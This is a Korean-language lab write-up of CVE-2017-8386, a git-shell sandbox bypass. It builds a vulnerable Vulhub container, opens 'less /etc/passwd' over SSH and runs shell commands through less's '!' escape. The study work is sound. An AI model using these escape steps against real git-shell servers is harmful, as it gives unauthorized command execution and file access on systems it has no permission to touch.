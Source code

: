 # CVE-2017-8386: git-shell Sandbox Bypass to RCE PoC
정수진(@suz1n)

## 개요
Git-shell은 SSH를 통해 제한된 git 명령만 허용하는 환경을 제공합니다. 하지만 특정 버전의 git-shell(2.12.2 등)에서는 `less` 명령어를 악용해 sandbox를 우회하고 시스템 명령어를 실행할 수 있는 취약점(CVE-2017-8386)이 존재합니다.

본 보고서는 해당 취약점에 대한 PoC를 진행하고 과정을 정리한 것입니다.

## 환경 구축

### 사용 도구 및 버전
- Docker: 24.0.7
- Docker-Compose: v2.34.0
- Host OS: macOS
- Target OS: Ubuntu 16.04 (컨테이너 내부)
- Git Version: 2.12.2
- SSH Server

### Vulhub 레포지토리 클론
`git clone https://github.com/phith0n/vulhub.git`

`cd vulhub/git/CVE-2017-8386/`
![Image1](https://github.com/user-attachments/assets/1f65fb3f-232e-4db4-b410-07f1a87f10a2)
### docker-compose.yml 및 Dockerfile 구성
	• Ubuntu 16.04 베이스 이미지
	• Git 2.12.2 소스 설치
	• OpenSSH 서버 설치 및 실행
	• git-shell 환경 설정 (git 사용자 생성)

### 컨테이너 빌드 및 실행
`docker-compose build`


`docker-compose up -d`


`docker ps`


	• 컨테이너 실행 확인 (git-shell-cve-2017-8386)
![Image2](https://github.com/user-attachments/assets/ca0e76e1-ccea-4d71-b34e-055e9fd4a803)
### SSH 키 등록 및 환경 설정
	1. 로컬에서 id_rsa.pub 생성 및 복사
	2. 컨테이너 내부 접속 및 git 사용자로 전환
	3. authorized_keys 등록
`docker exec -it git-shell-cve-2017-8386 /bin/bash`


`chsh -s /bin/bash git`


`su git`


`mkdir -p ~/.ssh`


`chmod 700 ~/.ssh`


`touch ~/.ssh/authorized_keys`


`chmod 600 ~/.ssh/authorized_keys`


`vim ~/.ssh/authorized_keys`

![Image3](https://github.com/user-attachments/assets/82ed4833-7d07-4b50-a6ec-fa663761ff16)
### 추가 패키지 설치
`apt update`


`apt install less -y`


`apt install man-db -y`


	• PoC 수행을 위해 less, man 패키지 설치 완료

## PoC 과정

### 정상적인 SSH 접속
`ssh -p 3322 -i id_rsa -t git@127.0.0.1 "less /etc/passwd"`


• less 화면 진입 성공


• ! 명령어를 통해 시스템 명령어 실행 가능


### 명령어 실행 (sandbox 우회)
• !id -> 사용자 ID, 그룹 ID 출력
![first_execute.png](https://github.com/suz1n/WHS3_vulhub/blob/main/first_execute.png)


• !whoami -> 현재 사용자(git)


• !uname -a -> 시스템 커널 정보 출력


• !ls /home/git -> git 홈 디렉토리 파일 목록 출력


## 분석
	• git-shell 환경에서는 사용자가 시스템 명령어를 실행할 수 없게 제한함.
	• 그러나 `git-upload-archive --help` 명령어를 통해 내부적으로 less 호출이 가능.
	• less 명령어는 ! 기능을 통해 시스템 쉘 명령 실행을 지원.
	• 결과적으로 git-shell sandbox를 우회하여 임의 명령어 실행이 가능함.

## 레퍼런스
• Insinuator 블로그: https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/


• Vulhub GitHub Repository: https://github.com/phith0n/vulhub

## GitHub 레포지토리 링크
https://github.com/suz1n/WHS3_vulhub
